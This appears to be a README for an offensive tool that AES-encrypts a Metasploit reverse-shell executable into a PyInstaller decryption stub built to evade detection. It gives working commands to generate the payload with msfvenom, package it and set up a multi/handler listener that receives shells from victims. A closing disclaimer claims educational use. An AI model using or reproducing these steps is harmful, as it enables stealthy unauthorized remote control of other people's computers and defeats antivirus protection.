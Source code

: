 # Encrypted Payload Dropper

## 🔹Description
This script encrypts an executable (payload) using AES encryption and generates a decryption stub. The stub decrypts and executes the payload, making detection and analysis more difficult. It is designed for educational purposes and security research.

## 🛠 Features
- Encrypts a given executable using AES in CTR mode.
- Generates a Python stub that decrypts and executes the payload.
- Uses `pyinstaller` to create a standalone executable.

## 🚀 How It Works
1. The script reads the `shell.exe` file (payload).
2. Encrypts it using AES encryption.
3. Generates a stub script (`stub.py`) containing the encrypted payload.
4. Converts `stub.py` into an executable using `pyinstaller`.
5. When executed, the stub decrypts the payload and runs it.

## 📌 Requirements
- Python 3
- `pyaes` module
- `pyinstaller`
- Metasploit Framework (for payload generation and listener)

## 🔧 Installation
```bash
pip install pyaes pyinstaller
```

## 📦 Usage
### 1️⃣ Generate the Payload
Use `msfvenom` to create a reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<your_ip> lport=443 -f exe > shell.exe
```
Place the `shell.exe` file in the script's directory.

### 2️⃣ Encrypt the Payload
Run the script:
```bash
python script.py
```
It will generate `stub.py` and convert it into an executable inside the `dist` folder.

### 3️⃣ Start Metasploit Listener
Open Metasploit and set up the listener:
```bash
msfconsole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost <your_ip>
set lport 443
set exitonsession 0
exploit -j
```

### 4️⃣ Execute the Stub
Run the generated executable (`dist/stub.exe`). This will decrypt and execute the payload. If successful, you will receive a session in Metasploit.

### 5️⃣ Manage Sessions
- View active sessions:
  ```bash
  sessions
  ```
- Interact with a session:
  ```bash
  sessions <id>
  ```

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.


